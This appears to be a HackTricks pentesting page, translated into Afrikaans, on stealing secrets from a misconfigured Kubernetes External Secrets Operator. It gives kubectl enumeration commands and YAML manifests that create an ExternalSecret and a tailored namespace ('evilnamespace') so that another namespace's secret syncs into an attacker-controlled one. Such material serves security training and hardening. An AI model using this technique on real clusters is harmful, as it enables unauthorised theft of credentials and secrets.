 # External Secret Operator

{{#include ../../banners/hacktricks-training.md}}

**Die oorspronklike skrywer van hierdie bladsy is** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Hierdie bladsy gee 'n paar riglyne oor hoe jy kan slaag om geheime te steel van 'n verkeerd geconfigureerde ESO of toepassing wat ESO gebruik om sy geheime te sinkroniseer.

## Disclaimer

Die tegniek hieronder kan slegs werk wanneer sekere omstandighede nagekom word. Byvoorbeeld, dit hang af van die vereistes wat nodig is om 'n geheim op 'n naamruimte wat jy besit / gecompromitteer het, te laat sinkroniseer. Jy moet dit self uitfigure.

## Vereistes

1. 'n Voet in 'n kubernetes / openshift-kluster met administratiewe regte op 'n naamruimte
2. Lees toegang op ten minste ExternalSecret op kluster vlak
3. Figurer uit of daar enige vereiste etikette / annotasies of groepslidmaatskap nodig is wat toelaat dat ESO jou geheim sinkroniseer. As jy gelukkig is, kan jy enige gedefinieerde geheim vryelik steel.

### Inligting oor bestaande ClusterSecretStore versamel

Aneem dat jy 'n gebruiker het wat genoeg regte het om hierdie hulpbron te lees; begin eers deur bestaande _**ClusterSecretStores**_ op te lys.
```sh
kubectl get ClusterSecretStore
```
### ExternalSecret enumerasie

Kom ons veronderstel jy het 'n ClusterSecretStore gevind met die naam _**mystore**_. Gaan voort deur sy geassosieerde externalsecret te enumerate.
```sh
kubectl get externalsecret -A | grep mystore
```
_Hierdie hulpbron is naamruimte-geskepte, so tensy jy reeds weet watter naamruimte om te soek, voeg die -A opsie by om oor alle naamruimtes te kyk._

Jy behoort 'n lys van gedefinieerde externalsecret te kry. Kom ons neem aan jy het 'n externalsecret objek genaamd _**mysecret**_ gevind wat gedefinieer en gebruik word deur naamruimte _**mynamespace**_. Versamel 'n bietjie meer inligting oor watter soort geheim dit hou.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Die samestelling van die stukke

Van hier af kan jy die naam van een of meer geheime name verkry (soos gedefinieer in die Secret hulpbron). Jy sal 'n uitvoer kry wat soortgelyk is aan:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Tot dusver het ons:

- Noem 'n ClusterSecretStore
- Naam van 'n ExternalSecret
- Naam van die geheim

Nou dat ons alles het wat ons nodig het, kan jy 'n ExternalSecret skep (en uiteindelik 'n nuwe Namespace patch/skep om te voldoen aan die vereistes wat nodig is om jou nuwe geheim gesinkroniseer te kry):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Na 'n paar minute, as die sink toestande nagekom is, behoort jy die gelekte geheim binne jou naamruimte te kan sien.
```sh
kubectl get secret leaked_secret -o yaml
```
## Verwysings

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}



{{#include ../../banners/hacktricks-training.md}}
